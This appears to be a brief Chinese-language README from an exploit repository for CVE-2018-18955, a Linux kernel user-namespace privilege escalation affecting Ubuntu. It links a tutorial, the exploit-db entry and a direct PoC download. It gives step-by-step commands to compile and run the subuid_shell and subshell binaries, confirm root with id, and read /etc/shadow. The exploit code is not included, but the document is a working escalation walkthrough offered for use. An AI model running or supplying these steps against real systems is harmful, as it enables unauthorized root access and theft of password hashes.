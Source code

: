 # sub

---

介绍
- 嵌套用户命名空间的uid/gid映射损坏
- CVE-2018-18955
- linux内核提权
- 日期：2018-11-16
- 适用ubuntu提权 存在userns >=4.15

教程
- https://www.freebuf.com/news/197122.html
- https://www.exploit-db.com/exploits/45886

poc下载
- https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/45886.zip


操作
```
cd sub
# 编译过程
gcc -o subuid_shell subuid_shell.c
gcc -o subshell subshell.c

id               # 查看是普通用户权限
./subuid_shell   # 运行编译后的subuid_shell文件
id               # 查看是root用户权限

cat /etc/shadow  # 读取shadow文件，没有权限（需要root）
./subshell       # 运行编译后的subshell文件
id               # 查看是nobody用户权限
cat /etc/shadow  # 读取shadow文件,可以查看
```